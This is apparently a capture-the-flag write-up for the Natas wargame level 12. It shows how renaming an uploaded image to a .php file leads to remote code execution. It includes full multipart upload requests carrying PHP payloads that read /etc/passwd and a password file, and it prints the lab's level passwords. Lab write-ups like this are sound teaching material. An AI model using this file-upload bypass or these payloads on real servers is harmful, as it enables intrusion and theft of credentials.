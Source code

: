 ```
The password for natas12 is YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```
## Natas 12
In this level, we can upload .jpg files. I think we can insert some php into the file and get it to execute, but we need to figure out how to do that. I tried putting php code straight into a jpeg and it wasn't executing. I was getting an error that the file was corrupted/not valid when I tried to fetch it after uploading it. 

I looked at the request and saw the php code in the file contents (see below).
```
-----------------------------15908999069113911571958988686
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------15908999069113911571958988686
Content-Disposition: form-data; name="filename"

9ubu9znqvx.php
-----------------------------15908999069113911571958988686
Content-Disposition: form-data; name="uploadedfile"; filename="12.jpg"
Content-Type: image/jpeg

<?php echo exec("cat /etc/passwd"); ?>

-----------------------------15908999069113911571958988686--
```
I then changed the `jpg` extention in the middle to `php` and then I saw it was reflected in the link returned.
With the above changes, I was able to get RCE.


I changed the code to leak the natas13 password and sent the request.
```
-----------------------------311158784333671107472627535479
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------311158784333671107472627535479
Content-Disposition: form-data; name="filename"

9ubu9znqvx.php
-----------------------------311158784333671107472627535479
Content-Disposition: form-data; name="uploadedfile"; filename="12.jpeg"
Content-Type: image/jpeg

<?php echo exec("cat /etc/natas_webpass/natas13"); ?>

-----------------------------311158784333671107472627535479--
```

`natas13:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`
